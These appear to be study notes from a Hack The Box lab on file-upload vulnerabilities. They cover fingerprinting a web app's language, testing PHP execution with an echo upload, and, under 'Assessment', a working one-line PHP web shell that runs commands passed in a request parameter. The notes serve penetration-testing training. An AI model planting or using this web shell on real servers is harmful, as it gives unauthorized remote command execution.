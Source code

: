 # Basic Exploit

This is when the webapplication accepts any type of file without any validation, (can drag and drop any file type)

### Identifying Web Framework

A **web shell has to be written in the same programming language that runs the web server**, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts

Easy method to determine what language runs the web application

* Access /index.ext and swap ext with various web extensions (php, asp, aspx)

> we can use ffuf or burp to enumerate the file extension. Note that some webapps doesn't use index page or have more than one web extensions

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_wappalyzer.jpg" alt=""><figcaption><p>wappalyzer to check for technologies</p></figcaption></figure>

### Vulnerability Identification

After knowing web technologies, we have to check if the webapp is vulnerable.

Test with `<?php echo "Hello HTB";?>` and upload the text to the webapp

Then access the location where the file is stored.

```
http://SERVER_IP:PORT/uploads/test.php
```

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_hello_htb.jpg" alt=""><figcaption><p>VULNERABLE</p></figcaption></figure>

### Assessment

```
<?php echo system($_REQUEST['cmd']); ?>
```

<figure><img src="../../.gitbook/assets/image (96) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption><p>ng-absentvalidation-m7kdm-9cf465b66-wxjhj</p></figcaption></figure>

